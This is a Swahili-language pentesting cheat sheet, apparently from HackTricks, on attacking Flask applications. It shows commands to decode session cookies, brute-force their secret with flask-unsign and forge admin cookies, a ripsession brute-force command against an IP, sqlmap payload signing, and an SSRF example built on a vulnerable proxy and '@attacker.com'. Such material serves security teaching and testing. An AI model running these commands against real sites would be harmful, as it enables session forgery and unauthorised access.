 # Flask

{{#include ../../banners/hacktricks-training.md}}

**Labda ikiwa unacheza CTF, programu ya Flask itahusishwa na** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection/index.html)**.**

## Cookies

Jina la kawaida la kikao cha cookie ni **`session`**.

### Decoder

Decoder ya cookie za Flask mtandaoni: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

#### Manual

Pata sehemu ya kwanza ya cookie hadi nukta ya kwanza na uifanye Base64 decode>
```bash
echo "ImhlbGxvIg" | base64 -d
```
Keki pia imesainiwa kwa kutumia nenosiri

### **Flask-Unsign**

Zana ya mstari wa amri ya kupata, kufungua, kujaribu nguvu na kuunda keki za kikao za programu ya Flask kwa kukisia funguo za siri.

{{#ref}}
https://pypi.org/project/flask-unsign/
{{#endref}}
```bash
pip3 install flask-unsign
```
#### **Fasiri Keki**
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
#### **Brute Force**
```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie '<cookie>' --no-literal-eval
```
#### **Kusaini**
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```
#### Kusaini kwa kutumia toleo la zamani (legacy)
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```
### **RIPsession**

Zana ya mistari ya amri ya kulazimisha tovuti kwa kutumia vidakuzi vilivyoundwa na flask-unsign.

{{#ref}}
https://github.com/Tagvi/ripsession
{{#endref}}
```bash
ripsession -u 10.10.11.100 -c "{'logged_in': True, 'username': 'changeMe'}" -s password123 -f "user doesn't exist" -w wordlist.txt
```
### SQLi katika kuki ya kikao cha Flask na SQLmap

[**Mfano huu**](../../pentesting-web/sql-injection/sqlmap/index.html#eval) unatumia chaguo la sqlmap `eval` ili **kusaini kiotomatiki mzigo wa sqlmap** kwa flask kwa kutumia siri inayojulikana.

## Proxy ya Flask kwa SSRF

[**Katika andiko hili**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) inaelezwa jinsi Flask inavyoruhusu ombi lianze na herufi "@":
```http
GET @/ HTTP/1.1
Host: target.com
Connection: close
```
Katika hali ifuatayo:
```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)
```
Inaweza kuruhusu kuingiza kitu kama "@attacker.com" ili kusababisha **SSRF**.

{{#include ../../banners/hacktricks-training.md}}

